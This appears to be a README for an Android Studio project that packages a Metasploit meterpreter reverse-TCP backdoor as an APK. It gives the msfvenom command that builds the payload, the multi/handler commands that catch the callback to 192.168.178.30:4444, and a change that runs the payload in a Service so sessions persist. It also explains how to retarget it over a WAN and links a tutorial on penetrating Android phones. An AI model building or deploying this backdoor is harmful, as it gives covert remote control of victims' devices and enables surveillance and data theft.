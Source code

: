 # msfvenom-backdoor-android
This Android Studio project contains the **source code of the backdoored .apk** generated by 
```
$msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.178.30 LPORT=4444 R > result.apk
```
(in Kali linux suite)

For an procedure guide of penetration into an Android system, please visit my website (Italian only) https://dragonitesec.wordpress.com/2016/11/06/tutorial-come-penetrare-in-un-telefono-android/

Tries to solve the issue:
```
[*]Meterpreter session x closed - Reason:died
```
message, by starting payload in a Service. Meterpreter session is more stable in this way (original msfvenom apk often causes session to die very soon)

In this project the backdoor works in **LAN** settings, opening a meterpreter session to 192.168.178.30 on port 4444
(this settings can be changed in **Payload.java** file if you want to work in a WAN)
The control server must be executing handler exploit with Metasploit, with following commands:
```
$msfconsole
$use exploit/multi/handler
$set payload android/meterpreter/reverse_tcp
$set LHOST 192.168.178.30
$set LPORT 4444
$exploit
```
after the metasploit machine is waiting, the .apk can be installed and launched on the android terminal.

**Remember to sign the .apk with a key before installing**

Tested on Samsung Galaxy S6 - Lollipop
